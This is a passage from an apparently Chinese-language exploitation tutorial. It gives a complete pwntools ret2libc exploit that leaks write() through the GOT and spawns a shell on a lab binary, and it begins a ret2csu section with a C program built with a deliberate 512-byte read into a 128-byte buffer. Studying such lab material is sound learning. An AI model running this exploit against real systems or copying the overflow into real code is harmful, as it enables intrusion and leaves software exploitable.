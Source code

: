 **Exploit**

```
#!/usr/bin/env python
 from pwn import *

 libc = ELF('libc.so')
 elf = ELF('level2')

 #p = process('./level2')
 p = remote('127.0.0.1', 10003)

 plt_write = elf.symbols['write']
 print 'plt_write= ' + hex(plt_write)
 got_write = elf.got['write']
 print 'got_write= ' + hex(got_write)
 vulfun_addr = 0x08048404
 print 'vulfun= ' + hex(vulfun_addr)

 payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

 print "\n###sending payload1 ...###"
 p.send(payload1)

 print "\n###receving write() addr...###"
 write_addr = u32(p.recv(4))
 print 'write_addr=' + hex(write_addr)

 print "\n###calculating system() addr and \"/bin/sh\" addr...###"
 system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
 print 'system_addr= ' + hex(system_addr)
 binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
 print 'binsh_addr= ' + hex(binsh_addr)

 payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 print "\n###sending payload2 ...###"
 p.send(payload2)

 p.interactive()
```



#### ret2csu x64通用gadget查找

程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），虽然很多程序的源码不同，但初始化的过程是相同的，针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要的效果。

目标程序level5.c：

```
 #undef _FORTIFY_SOURCE
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
  char buf[128];
  read(STDIN_FILENO, buf, 512);
 }

 int main(int argc, char** argv) {
  write(STDOUT_FILENO, "Hello, World\n", 13);
  vulnerable_function();
 }
```
